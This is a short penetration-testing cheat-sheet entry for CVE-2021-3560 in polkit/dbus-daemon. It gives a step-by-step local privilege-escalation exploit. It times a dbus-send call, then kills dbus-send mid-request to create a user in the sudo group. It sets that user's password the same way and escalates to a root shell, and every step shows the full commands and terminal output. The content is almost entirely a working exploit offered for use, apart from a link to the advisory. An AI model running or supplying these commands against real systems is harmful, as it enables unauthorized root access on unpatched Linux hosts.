 
### polkit/dbus-daemon

**CVE-2021-3560**

* [https://github.blog/2021-06-10-privilege-escalation-polkit-root-on-linux-with-bug/](https://github.blog/2021-06-10-privilege-escalation-polkit-root-on-linux-with-bug/)

Calculate the approximate time for `dbus-send` to fail:

```
$ time dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:snovvcrash string:snovvcrash int32:1
Error org.freedesktop.Accounts.Error.PermissionDenied: Authentication is required

real    0m0.014s
user    0m0.003s
sys     0m0.001s
```

Divide it by 2 or by 3 and create a new user account (you might want to experiment with the number of milliseconds in the delay and repeat the process a couple of times if needed):

```
$ dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:snovvcrash string:snovvcrash int32:1 & sleep 0.005s; kill $!
[1] 16405
$
[1]+  Terminated              dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:snovvcrash string:snovvcrash int32:1
$ id snovvcrash
uid=1003(snovvcrash) gid=1003(snovvcrash) groups=1003(snovvcrash),27(sudo)
```

Then set a password for it, sudo into a privilege shell and you are root:

```
$ openssl passwd -5 'N3V3RF34RI15H3R3!'
$5$a/AGYekwlZrxQMTH$lrcXNqyEZhg6V6Rk2kqxwKtAQ5mb3cip6T1XjOgcoP0
$ dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts/User1003 org.freedesk
top.Accounts.User.SetPassword string:'$5$a/AGYekwlZrxQMTH$lrcXNqyEZhg6V6Rk2kqxwKtAQ5mb3cip6T1XjOgcoP0' string:HelloWorld & sleep 0.005s; kill $!
[1] 16540
$
[1]+  Terminated              dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts/User1003 org.freedesktop.Accounts.User.SetPassword string:'$5$a/AGYekwlZrxQMTH$lrcXNqyEZhg6V6Rk2kqxwKtAQ5mb3cip6T1XjOgcoP0' string:HelloWorld
$ su snovvcrash
$ sudo -i
[sudo] password for snovvcrash:
 # id
uid=0(root) gid=0(root) groups=0(root)
```
